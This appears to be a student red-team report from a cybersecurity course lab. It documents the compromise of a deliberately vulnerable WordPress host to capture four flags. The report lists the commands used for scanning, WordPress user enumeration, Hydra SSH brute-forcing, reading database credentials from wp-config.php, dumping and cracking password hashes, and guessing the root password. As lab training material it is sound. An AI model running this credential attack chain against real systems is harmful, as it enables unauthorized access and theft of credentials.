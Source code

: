 Red Team: Summary of Operations

Table of Contents

	- Exposed Services
	- Critical Vulnerabilities
	- Exploitation


Exposed Services
Nmap scan results for each machine reveal the below services and OS details:
Command: $ nmap -sV 192.168.1.110

This scan identifies the services below as potential points of entry:

**Target 1**
1. Port 22/TCP		Open		SSH
2. Port 80/TCP		Open		HTTP
3. Port 111/TCP		Open		rcpbid
4. Port 139/TCP		Open		netbios-ssn
5. Port 445/TCP		Open		netbios-ssn



### Critical Vulnerabilites
The following vulnerabilities were identified on each target:

**Target 1**

1. User Enumeration (WordPress site)
2. Found the occurrence of simplistic usernames and weak passwords (Hydra Command)
3. Brute forced ssh to gain access in to the system.
4. Secure files are not hidden away.
5. Misconfiguration of User Privileges/ Privilege Escalation


### Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**

**flag1.txt:** {b9bbcb33e11b80be759c4e844862482d}


	- Exploit Used:
		- WPScan to enumerate users on the Target1 WordPress site.
		- Command:
			- $ wpscan --url 192.168.1.110/wordpress
			  $ wpscan --url 192.168.1.110 --enumerate -u
		![](IMAGES/wpscan.png)


	- Targeting the user michael
		- Small manual Brute Force attack to guess/finds Michael's password.
		- First, the user's password is weak and obvious.
		- Second, for pratice, Hydra can be used to crack Michaels's password:
			- Command: hydra -l michael -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.110 -t 4 ssh
		    
            	- ![HYDRA Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/hydra-command-2.png)		


	- Capturing Flag1: SSH in as Michael, transvering through directories and files.
		- The first Flag was found in /var/www/html folder at root in services.html in a HTML comment below the footer.
		- Commands:
			- ssh michael@192.168.1.110
			- password: michael
			- cd /var/www/html
			- ls -l
			- nano services.html
			
		- [FLAG1 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag1.png)
			
            	


**flag2.txt:** {fc3fd5Bdcdad9ab23facac6e9a365e581c33}


Exploit Used

	- The same exploit used to gain flag1.
	- Capturing Flag2: While in SSH in as Michael, Flag2 was also gained.
		- Once again, browsing through the files and directories, Flag2 can be found in /var/www next to the html folder where Flag1 was found. 
		- Commands:
			- ssh michael@192.168.1.110
			- password: michael
			- cd /var/www
			- ls -l
			- cat flag2.txt
		
		- [FLAG2 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag2.png)

**flag3.txt:** {afc01ab56b50591e7dccf93122770cd23}

Exploit Used:
	- Same exploits to gain Flag1 and Flag2.
	- Capturing Flag3: Access the MYSQL database.
		- Discovering the wp-config.php and gaining access to the database credentials as the user Michael, MYSQL when used to explore the database.
	- Commands:
		- mysql -u root -p 'R@v3nSecurity' 
		- show databases;
		- use wordpress;
		- select * from wp_posts;
		
       	- [FLAG3 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag3.png)

**flag4.txt:** {715dea6c055b9fe3337544932F2941ce}

Exploit Used:
	- Unsalted password hash and use of the privilege escalation with Python.
	- Capture Flag4: Gained user credentials, cracked password with John the Ripper and used Python to gain root privileges.
		- Once gaining access to the database credentials as the user Michael from the wp-config.php file, the next step was to lift the username and password hasses using MYSQL.
		- The credentials were located in the wp_users table in the wordpress database. The usernames and passwords were copied and saved on the Kali machine in a file call wp_hashes.txt.
		- Commands: 
			- mysql -u root -p'R@v3nSecurity' 
			- show databases;
			- use wordpress;
			- show tables;
			- select * from users;

	- On the Kali machine the wp_hashes.txt ran against John the Ripper to crack the hashes.
	- Command:
		- john wp_hashes.txt
		
        [John Command Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/steven-password-2.png)
        

	- Once the user Steven's password hash was crached, the next step was to SSH in the server as Steven. Under the user Steven, privileges will first be checked, and escalated to root by guessing common root passwords.
	- Commands:
		- ssh steven@192.168.1.110
		- password: pink:84
		- sudo -l
		- su root
		- password: toor
		- find /-iname flag*
		- cat /root/flag4.txt
		
        - [FLAG4 Screenshot](https://github.com/hart2533/FINAL-CYBER-PROJECT/blob/main/RED-TEAM/IMAGES/flag4.png)
